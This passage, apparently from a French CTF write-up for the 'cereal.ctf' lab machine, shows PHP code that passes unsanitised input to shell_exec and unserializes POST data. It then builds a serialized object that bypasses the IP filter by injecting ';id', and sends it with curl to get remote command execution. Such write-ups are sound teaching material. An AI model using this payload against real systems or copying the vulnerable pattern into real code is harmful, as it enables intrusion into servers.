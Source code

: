 ```php
        public function ping()
        {
                if ($this->isValid) {
                        $this->output = shell_exec("ping -c 3 $this->ipAddress");
                }
        }

}

if (isset($_POST['obj'])) {
        $pingTest = unserialize(urldecode($_POST['obj']));
} else {
        $pingTest = new pingTest;
}

$pingTest->validate();
```

On voit qu'un filtre est présent pour vérifier le format d'adresse IP, mais ce filtre est utilisé seulement si l'attribut `isValid` vaut `False`, ce qui est la valeur par défaut.

Il faut simplement qu'on forge un objet avec la bonne valeur pour atteindre l'exécution de commande en bypassant le filtre.

J'ai écrit le code suivant :

```php
<?php
class pingTest {
    public $ipAddress;
    public $isValid = False;
}

$exploit = new pingTest();
$exploit->ipAddress = ";id";
$exploit->isValid = True;
echo serialize($exploit);
?>
```

Celui-ci donne cet output :

```
O:8:"pingTest":2:{s:9:"ipAddress";s:3:";id";s:7:"isValid";b:1;}
```

Une fois intégré dans la requête, j'obtiens bien une RCE :

```console
$ curl -XPOST --data 'obj=O%3A8%3A%22pingTest%22%3A2%3A%7Bs%3A9%3A%22ipAddress%22%3Bs%3A3%3A%22%3Bid%22%3Bs%3A7%3A%22isValid%22%3Bb%3A1%3B%7D&ip=192.168.56.1' http://secure.cereal.ctf:44441/
--- snip ---
                        <br /><br /><textarea>uid=48(apache) gid=48(apache) groups=48(apache)
--- snip ---
```
